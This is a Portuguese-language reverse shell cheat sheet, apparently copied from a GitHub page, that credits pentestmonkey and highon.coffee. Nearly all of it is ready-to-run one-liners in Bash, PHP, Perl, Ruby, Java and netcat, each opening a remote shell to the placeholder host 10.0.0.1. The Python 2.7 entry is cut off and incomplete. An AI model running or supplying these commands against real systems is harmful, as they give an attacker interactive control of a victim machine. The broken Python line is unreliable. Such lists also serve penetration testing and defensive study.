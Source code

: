 # Reverse Shell Cheat Sheet

Os exemplos abaixo são para sistemas Linux, mas alguns podem ser testados em sistemas Windows alterando  “/bin/sh -i” por “cmd.exe”.

## Bash

Algumas versões do bash podem executar um  reverse shell (Ex: Ubuntu 10.10):

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

## Python 2.7

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234))

## PHP
Esta linha de comando utiliza “TCP connection file descriptor 3”. Caso não funcione , tente 4, 5, 6…

php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

## PERL

perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

## Ruby

ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

## Java

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

## Netcat

nc -e /bin/sh 10.0.0.1 1234

## Fonte:

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://highon.coffee/blog/reverse-shell-cheat-sheet
